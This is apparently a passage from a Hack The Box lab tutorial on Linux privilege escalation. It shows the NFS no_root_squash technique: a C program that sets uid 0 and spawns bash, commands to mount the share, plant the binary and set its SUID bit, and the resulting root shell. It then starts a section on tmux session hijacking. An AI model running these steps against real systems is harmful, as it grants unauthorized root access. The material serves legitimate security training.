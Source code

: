 ```bash
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

```c
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```bash
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```bash
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

```bash
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.
